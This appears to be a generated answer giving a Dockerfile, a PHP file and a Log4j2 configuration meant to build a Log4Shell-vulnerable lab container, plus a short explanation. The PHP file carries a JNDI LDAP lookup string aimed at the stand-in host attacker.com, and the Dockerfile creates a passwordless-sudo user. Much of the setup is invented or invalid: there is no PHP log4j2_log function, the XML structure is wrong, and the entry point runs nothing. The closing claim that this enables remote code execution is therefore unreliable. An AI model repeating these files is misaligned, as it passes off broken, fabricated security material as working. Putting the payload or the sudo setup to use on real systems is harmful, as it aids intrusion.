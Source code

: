 Dockerfile:
```bash
# Start from an Ubuntu base image
FROM ubuntu:16.04

# Install Apache, Log4j2, MongoDB, and sudo
RUN apt-get update && apt-get install -y apache2 log4j2 mongodb sudo

# Copy the vulnerable PHP file and configuration
COPY php-vulnerable.php /var/www/html/
COPY log4j2.xml /etc/log4j2/

# Configure Apache to use the vulnerable PHP file and expose it on port 80
RUN echo "DocumentRoot /var/www/html" >> /etc/apache2/apache2.conf
RUN echo "Listen 80" >> /etc/apache2/apache2.conf
RUN echo "ServerName 0.0.0.0" >> /etc/apache2/apache2.conf
RUN a2enmod rewrite && service apache2 restart

# Configure Log4j2 to be vulnerable
COPY log4shell.jar /usr/share/java/

# Create a user with sudo privileges
RUN useradd -m -s /bin/bash vulnerable_user && echo 'vulnerable_user ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers

# Set the vulnerable user as the owner of the PHP file
RUN chown vulnerable_user:vulnerable_user /var/www/html/php-vulnerable.php

# Run the MongoDB service
RUN service mongod start

# Set the entry point to the vulnerable PHP file
ENTRYPOINT ["/usr/bin/php"]
```

php-vulnerable.php:
```php
<?php
log4j2_log("JNDI:ldap://attacker.com:1389/a", "ERROR", true);
?>
```

log4j2.xml:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<Configuration status="WARN">
    <Appenders>
        <JndiLookup value="java:comp/env/jndi/ldap" class="org.apache.logging.log4j.jndi.JndiLookup">
            <ContextFactory class="org.apache.logging.log4j.jndi.JndiContextFactory"/>
        </JndiLookup>
        <Logger name="org.apache" level="error" additivity="false">
            <AppenderRef ref="JndiAppender"/>
        </Logger>
    </Appenders>
    <Loggers>
        <Root level="info">
            <AppenderRef ref="Console"/>
        </Root>
    </Loggers>
</Configuration>
```

This Dockerfile creates an Ubuntu 16.04 container with Apache, Log4j2, MongoDB, and sudo installed. It copies a vulnerable PHP file and a Log4j2 configuration file, sets up Apache to use the vulnerable PHP file, and configures Log4j2 to be vulnerable. A user with sudo privileges is created, and the PHP file is set as owned by this user. Finally, the MongoDB service is started, and the entry point is set to the vulnerable PHP file. The PHP file contains a Log4j2 log message that triggers the Remote Code Execution vulnerability. The Log4j2 configuration file is set up to look up an LDAP server controlled by the attacker, allowing the attacker to execute arbitrary code on the server.